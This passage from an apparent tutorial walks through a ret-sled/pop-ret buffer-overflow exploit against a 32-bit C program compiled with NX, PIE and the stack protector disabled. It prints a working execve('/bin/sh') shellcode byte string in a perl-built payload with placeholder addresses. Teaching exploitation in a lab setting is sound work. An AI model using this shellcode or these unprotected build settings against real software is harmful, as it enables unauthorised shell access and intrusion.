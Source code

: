 ```c
    /* system("/bin/sh");  // used for NX exploration */
}
```

Compile the program with the following options:

```bash
gcc -g -m32 -no-pie -z execstack -fno-stack-protector ans_check.c -o ans_check
```

We just turned off PIE, NX, and StackGuard protections while leaving ASLR enabled. If we run the program multiple times, we can see different start addresses of <code>ans_buf</code> printed out. To construct an effective exploitation payload, we need to find a fixed memory address that the program can return to. Fortunately, the <code>main()</code> function meets our need. To verify this, use this simple program <code>find_main.c</code>:
```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char *argv[])
{
    printf("%p\n", main);
    return 0;
}
```
which gives the start address of <code>main()</code>. Compile it with the command:
```bash
gcc -m32 -no-pie -o find_main find_main.c
```
After executing it several times, we should notice that the address does not change. On my system, the start address of <code>main()</code> is <code>0x08049196</code>.

## The Exploitation Payload

Our payload have three logical components: the first is a sequence of instructions (shellcode), by executing which we can obtain the shell; the second is safe padding with addresses than contain a <code>ret</code> instruction; the third is the address of a <code>pop-ret</code> instruction. In Kotlin's words:

> The purpose of <code>ret</code> will be somewhat similar to a NOP with a tweak, as each <code>ret</code> performs a <code>pop</code> action and increase <code>%esp</code> by four bytes, and then afterward jumps the next one.

If all our handcrafted instructions start at a four-byte aligned memory address, given the fact that strings in C language are <code>NULL</code> terminated, the memory address immediately following our final <code>pop-ret</code> instruction will be contaminated with a "<code>\x00</code>" byte. The <code>pop</code> instruction should be able to eliminate this address from the stack and let the last <code>ret</code> jump to the potential return address which leads to our shellcode. Our ideal payload looks like this:

```bash
./ans_check $(perl -e 'print "\x90"xA, "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80", "{&ret}"xB, "{&pop-ret}"')
```

where the value of <code>B</code> is determined by the offset between the start address of <code>ans_buf</code> and the address we are returning to, and the value of <code>A</code> is chosen to fit a byte-alignment.
